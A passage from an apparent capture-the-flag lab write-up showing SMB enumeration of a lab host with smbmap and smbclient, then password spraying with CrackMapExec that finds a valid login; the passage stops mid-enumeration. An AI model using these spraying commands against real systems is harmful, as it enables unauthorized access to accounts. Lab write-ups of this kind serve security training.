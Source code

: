 
### SMB - TCP 445

#### Initial Enum

I start with the typical `smbmap` call:

    
    
    root@kali# smbmap -H 10.10.10.149
    [+] Finding open SMB ports....
    [!] Authentication error occurred
    [!] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
    [!] Authentication error on 10.10.10.149
    

No permissions. I try adding a bad username and password just to be sure, but
same results. I’ll also check `smbclient` just in case:

    
    
    root@kali# smbclient -N -L //10.10.10.149
    session setup failed: NT_STATUS_ACCESS_DENIED
    

#### With Creds

Now I’ll try with the credentials I’ve gathered.
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Using-
Credentials) is a great tool here. I can give it a list of username and
passwords, and let it tell me which one worked:

    
    
    root@kali# crackmapexec smb 10.10.10.149 -u users -p passwords 
    CME          10.10.10.149:445 SUPPORTDESK     [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SUPPORTDESK)
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:stealth1agent STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:stealth1agent STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:$uperP@ssword STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [+] SUPPORTDESK\hazard:stealth1agent 
    [*] KTHXBYE!
    

It will stop once it finds one. If you want it to continue, there’s a
`--continue-on-success` flag in newer versions than the one on kali.

I’ll re-run `smbmap` with creds. hazard can only access `IPC$`:
